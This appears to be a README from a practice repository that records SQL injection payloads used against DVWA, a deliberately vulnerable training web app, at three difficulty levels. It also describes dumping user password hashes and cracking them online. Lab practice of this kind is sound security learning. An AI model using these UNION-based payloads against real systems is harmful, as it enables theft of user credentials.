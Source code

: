 # DVWA-Practice
Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable.The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface. This repo. contains documentation of the Exploits during my practice session.

Directory: localhost/DVWA-master/vulnerabilities/sqli/

# SQLi - Difficulty:Low
User Id -->


'or 1=1# 


'or'1'='1


' ORDER BY 3#


' ORDER BY 2# 


' UNION SELECT user, password FROM users#       (# for commenting the rest of the statements after the query.)


# SQLi - Difficulty:Medium
inspect--> User Id


option value="1 or 1=1 UNION SELECT user, password FROM users#">' UNION SELECT username, password FROM users--1</option

NB: However due to the SQL query not having **quotes** around the parameter, this will not fully protect the query from being altered.
    (View Help & Source Code)
    
    
# SQLi - Difficulty:High
1' or 1=1 UNION SELECT user, password FROM users#

# SQLi - Cracking the Hashes
Set Setting: Low & collect the hashes.


' UNION SELECT user, password FROM users#


Paste it into crackstation.net to get the passwords.

Additional Help: https://portswigger.net/web-security/sql-injection/union-attacks


